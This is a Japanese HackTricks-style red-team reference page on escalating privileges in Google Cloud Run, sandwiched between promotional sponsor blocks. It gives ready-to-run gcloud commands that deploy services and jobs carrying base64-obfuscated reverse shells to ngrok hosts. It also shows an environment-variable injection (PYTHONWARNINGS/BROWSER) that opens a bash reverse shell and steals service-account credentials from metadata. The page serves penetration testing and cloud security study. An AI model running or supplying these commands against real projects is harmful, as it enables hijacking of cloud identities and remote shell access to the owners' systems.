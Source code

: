 # GCP - 特権昇格の実行

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする**
* **ハッキングテクニックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## Cloud Run

Cloud Runに関する詳細情報は、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create`、`iam.serviceAccounts.actAs`、**`run.routes.invoke`**

これらの権限を持つ攻撃者は、**任意のコードを実行するランサービスを作成**（任意のDockerコンテナ）、それにサービスアカウントをアタッチし、コードを使用してメタデータから**サービスアカウントトークンを外部に送信**できます。

この方法の悪用スクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py)で見つけることができ、Dockerイメージは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage)で見つけることができます。

`gcloud run deploy`を使用する場合、単にサービスを作成するだけでなく、**`update`権限が必要**です。[**こちらの例**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh)をチェックしてください。

### `run.services.update`、`iam.serviceAccounts.actAs`

前述のものと同様ですが、サービスを更新します。
```bash
gcloud run deploy hacked \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

クラウドRun上で以前の権限を自分に付与します。

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

リバースシェルを使用してジョブを起動し、コマンドで指定されたサービスアカウントを盗みます。[**こちらのエクスプロイト**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh)を見つけることができます。
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

前回と同様に、**ジョブを更新し、SAを更新**して、**コマンドを実行**することが可能です。
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### run.jobs.run, run.jobs.runWithOverrides, (run.jobs.get)

ジョブ実行の環境変数を悪用して任意のコードを実行し、リバースシェルを取得してコンテナの内容（ソースコード）をダンプし、メタデータ内のSAにアクセスします:&#x20;

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

### `çrun.jobs.setIamPolicy`

Cloud Jobsに対して前述の権限を付与します。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つけます
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出することで、あなたのハッキングトリックを共有してください。

</details>
